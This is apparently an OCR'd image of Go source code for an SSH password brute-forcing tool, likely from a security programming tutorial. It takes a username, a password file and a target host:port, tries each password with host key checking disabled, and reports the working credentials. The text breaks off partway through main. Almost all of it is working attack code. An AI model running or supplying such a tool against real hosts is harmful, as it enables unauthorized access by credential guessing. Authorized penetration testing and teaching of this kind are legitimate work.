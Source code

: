 ```
URL should include hostname or ip with port number separated by colon 

Usage: 
  ` + os.Args[0] + ` <username> <pwlistfile> <url:port> 

Example: 
  ` + os.Args[0] + ` root passwords.txt example.com:22 
`) 
} 

func checkArgs() (string, string, string) { 
   if len(os.Args) != 4 { 
      log.Println("Incorrect number of arguments.") 
      printUsage() 
      os.Exit(1) 
   } 

   // Username, Password list filename, URL 
   return os.Args[1], os.Args[2], os.Args[3] 
} 

func testSSHAuth(url, username, password string, doneChannel chan bool) { 
   sshConfig := &ssh.ClientConfig{ 
      User: username, 
      Auth: []ssh.AuthMethod{ 
         ssh.Password(password), 
      }, 
      // Do not check server key 
      HostKeyCallback: ssh.InsecureIgnoreHostKey(), 

      // Or, set the expected ssh.PublicKey from remote host 
      //HostKeyCallback: ssh.FixedHostKey(pubkey), 
   } 

   _, err := ssh.Dial("tcp", url, sshConfig) 
   if err != nil { 
      // Print out the error so we can see if it is just a failed   
      // auth or if it is a connection/name resolution problem. 
      log.Println(err) 
   } else { // Success 
      log.Printf("Success!\nUser: %s\nPassword: %s\n", username,   
      password) 
      os.Exit(0) 
   } 

   doneChannel <- true // Signal another thread spot has opened up 
} 

func main() { 

   username, pwListFilename, url := checkArgs() 

   // Open password list file 
   passwordFile, err := os.Open(pwListFilename) 
   if err != nil { 
      log.Fatal("Error opening file. ", err) 
   } 
   defer passwordFile.Close() 

   // Default split method is on newline (bufio.ScanLines) 
   scanner := bufio.NewScanner(passwordFile) 

   doneChannel := make(chan bool) 
```